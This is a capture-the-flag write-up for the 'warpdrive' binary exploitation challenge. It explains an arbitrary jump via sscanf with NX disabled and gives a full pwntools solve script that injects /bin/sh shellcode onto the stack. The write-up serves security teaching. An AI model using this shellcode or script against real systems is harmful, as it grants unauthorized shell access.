




# warpdrive

A simple challenge if not for the lack of source code.  
Featuring: Running shell code on the stack (NX disabled)

[source](https://github.com/azazazo/blahajctf-files/raw/main/warpdrive/warp)

### Primary look through the chal

First, we run checksec on the binary
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```

NX is disabled, meaning that we can execute code from within the function memory. This will be explained later on.

Next, we put this through ghidra and get a decompilation:
```c
undefined8 main(void) {
  long in_FS_OFFSET;
  code *hack_fn;
  char input [40];
  long canary;
  
  // useless stuff
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);

  // the vulnerability
  printf("CURRENT POSITION: %p\nWARP TO:",&hack_fn);
  fgets(input,40,stdin);
  __isoc99_sscanf(input,&DAT_00102022,&hack_fn);
    // sscanf(input, "%p", &hack_fn);
  (*hack_fn)();

  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  } 
  return 0;
}
```

Let's look through this chunk by chunk.

#### Variables
`hack_fn` is a pointer to a function which will be called later on.  
There is also a buffer (`input`) of 40 bytes available to the user. (No buffer overflow here)  
#### "useless stuff"
This initialises the canary which is used to detect a buffer overflow out of the function memory, and also intialises the buffers to stdin. This is common throughout all binaries.

#### Vulnerability
`printf` prints the _address_ of `hack_fn` by passing `&hack_fn` into "%p".  
After `fgets`-ing 40 bytes into `input`, we call sscanf, which is essentially scanf but the input comes from the first parameter instead of stdin.

(to view the value of the second parameter of sscanf, simply double click `DAT_whatever`)



<br>
<details>

<summary>sscanf docs</summary>
<br>
<pre>int sscanf(const char *restrict str, const char *restrict format, ...);</pre>
The sscanf() family of functions scans input according to format as described below. This format may contain conversion specifications; the results from such conversions, if any, are stored in the locations pointed to by the pointer arguments that follow format. Each pointer argument must be of a type that is appropriate for the value returned by the corresponding conversion specification.
<br>
sscanf() These functions read their input from the string pointed to by str.

</details>
<br>

So, the program searches in `input` for a string of "0x1234" (or similar) and writes it into `hack_fn`, and then calls it on the next line.  
Finally, it checks whether or not the canary was overwritten and exits if so.

Essentially, the program allows you to jump to wherever in memory you want to go.

### But where would we want to jump?

To answer this, we shall look into the layout of the program in the stack.  
Going back to ghidra, we see in the assembly code that `hack_fn` lies at `[RBP-0x38]`, while `input` lies at `[RBP-0x30]`.  



For your convenience, below is a visualisation of the stack by running `tel` in GEF just after the `fgets` call.



NOTE: you write towards the higher address, i.e. towards RBP.  
This means that the 40 bytes of `input` lies from the line 0x10 to 0x30 (inclusive)

Recall the `printf` leak of `input`?

```c
printf("CURRENT POSITION: %p\nWARP TO:",&hack_fn);
```

From this output, we will obtain the actual location of 0x8.

### The exploit plan

Knowing all of the above, we can write our own code into `input`, and then tell the program to jump to exactly where that code lies.

1. Obtain the actual address of `input` from the first line of program output.
2. Add the offset (0x8 ???) to the payload
3. Add some shellcode for running /bin/sh to the payload
4. profit

We will write the exploit script using pwntools.

```python
from pwn import*
shell = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
p = process('./warp')
```

### Step 1

Parse the output of the program and store the address into `addr`
```python
addr = p.recvline().decode().split()[-1][2:]
addr = int(addr, 16)
```

### Step 2

Add the offset to the payload.

```python
s = hex(addr)
buf = bytes(hex(addr + len(s)+1+8), 'utf-8') + b' '
buf += shell
p.sendline(buf)
p.interactive()
```

Notice that instead of adding 0x8 as the offset of the code from the leaked address, I also added the length of the payload.  
Since we also have to fit the address to jump to at the start of the buffer, the code lies later into the stack.



screenshot for visualisation purposes.  
The shellcode starts at 0x20 while the leaked address is at 0x8 because the length of "my_addr" is 7. (8+7+1 = 16 = 0x10)


## Final solve script

```python
from pwn import*

shell = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

p = process('./warp')
#p = remote('146.190.194.110', '30001')
addr = p.recvline().decode().split()[-1][2:]
addr = int(addr, 16)
print("got address", hex(addr))

s = hex(addr) # test the length
buf = bytes(hex(addr + len(s)+1+8), 'utf-8') + b' '
buf += shell
p.sendline(buf)
p.interactive()
```
